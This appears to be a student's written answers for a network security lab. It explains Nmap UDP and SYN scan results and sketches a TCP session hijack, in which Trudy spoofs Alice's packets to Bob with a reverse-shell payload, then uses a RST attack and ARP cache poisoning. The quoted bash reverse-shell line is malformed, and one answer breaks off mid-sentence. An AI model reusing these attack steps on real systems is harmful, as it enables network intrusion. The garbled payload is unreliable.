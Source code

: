 sU is the udp flag

This happens in a udp scan when we get no response. 

Since udp doesn't really confirm things like tcp does, the port could be filtered or improperly formatted package.

Nmap characterizes this as you don't know, so it says that it's "OPEN FILTERED" 

## 2.3
This could be a tcp syn scan trying to be performed on the server by an attacker, since no connections being established is what nmap sS does. But i could also be some sort of attack trying to flood the 

## Q4
### A
Alice is the client
Bob is server

She wants to pretend to be alice and create a reverse shell to Bob, telling him to connect to a session in Trudy's computer.

Trudy will need to create an ip/tcp packet that contains the malicious payload.

For ip, she can use the ip source and destination ports (src is the client, alice, and dst is the server, bob).

Then, from the last packet transmitted, she can also get the src port and dest ports (as above) + the last seen seq and ack numbers.

The flag should be sent as PA (Push Ack)

and a payload to create a reverse
shell is layered in the data: (from lab, we did `/bin/bash -i > /alice/{aliceIP}/{alice listening port} + new line character"`)

Finally, she can construct the packet and sen it as ip/tcp/payload
### B 
It would definitely be useful since, if alice is taken down, trudy can now pretend to be alice and respond in her behalf.
This is kind of a solution to the problem below.
First she can send a rst attack to alice or find a way to take her system down.
Afterwards, she can posion the arp cache to overwrite the ip-mac arp table such that alice segments will not reach bob and vice versa
Finally, trudy can continue to communicate with bob whilst pretending to be alice (a much more persistent attack)
### C
Trudy can continue guessing forever I think, it's just a matter of how hard it is to be guessing the seq and ack numbers.
The difficulty in this instance does not come from the fact that you can get "banned" from the server.
It comes from the fact that it's nearly impossible to actually guess those numbers (seq ack) right if you cannot see the packets
